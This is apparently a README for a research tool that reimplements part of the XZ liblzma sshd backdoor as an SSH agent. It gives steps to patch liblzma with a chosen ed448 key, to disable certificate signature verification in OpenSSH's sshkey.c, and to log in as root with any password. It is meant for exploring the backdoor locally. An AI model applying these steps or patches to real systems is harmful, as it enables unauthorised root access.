 # Jia Tan's SSH Agent

Simple SSH Agent that implements some of the XZ sshd backdoor functionality.

For those who want to more easily explore the backdoor using a typical SSH client.

![demo](assets/demo.png)

## Usage

- Generate your own ed448 private key
  - `openssl genpkey -algorithm ED448 -outform PEM -out privkey.pem`
- Patch your liblzma.so with the ed448 pubkey
  - `python3 scripts/patch_liblzma.py privkey.pem liblzma.so liblzma_patched.so`
- Patch your SSH client to skip verification of the certificate:
  - Look for this section in openssh's `sshkey.c` and comment it out:
  ```c
  if ((ret = sshkey_verify(key->cert->signature_key, sig, slen,
             sshbuf_ptr(key->cert->certblob), signed_len, NULL, 0, NULL)) != 0)
  {
  	goto out;
  }
  ```
- `python3 -m virtualenv venv && . venv/bin/activate && pip install -r requirements.txt`
- `python3 agent.py /tmp/agent ./privkey.pem`
- `SSH_AUTH_SOCK=/tmp/agent ./ssh root@localhost`
- log in with any password :)

-- blasty `<peter@haxx.in>`
